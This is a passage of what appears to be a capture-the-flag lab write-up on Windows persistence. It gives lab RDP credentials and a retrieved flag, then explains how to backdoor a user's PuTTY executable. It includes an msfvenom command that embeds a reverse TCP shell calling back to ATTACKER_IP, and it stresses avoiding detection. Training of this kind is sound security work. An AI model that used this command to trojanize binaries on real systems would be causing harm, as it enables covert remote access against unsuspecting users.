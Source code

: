 |   |   |
|---|---|
|**Username**|thmuser3|
|**Password**|Password321|

If you did everything correctly, you should be logged in to the Administrator's desktop. 

  
Note: When you log in via RDP, the existing in-browser view will be disconnected. After you terminate your RDP session you can get the in-browser view back by pressing Reconnect.

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)

Log in to the machine via RDP using thmuser3 and execute `C:\flags\flag3.exe` to retrieve your flag.

Once we do all that, we will get flag3:

```
THM{TRUST_ME_IM_AN_ADMIN}
```


# Backdooring Files
----

Another method of establishing persistence consists of tampering with some files we know the user interacts with regularly. By performing some modifications to such files, we can plant backdoors that will get executed whenever the user accesses them. Since we don't want to create any alerts that could blow our cover, the files we alter must keep working for the user as expected.

While there are many opportunities to plant backdoors, we will check the most commonly used ones.

## Executable Files

If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

```shell-session
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. While this method is good enough to establish persistence, let's look at other sneakier techniques.

### Shortcut Files
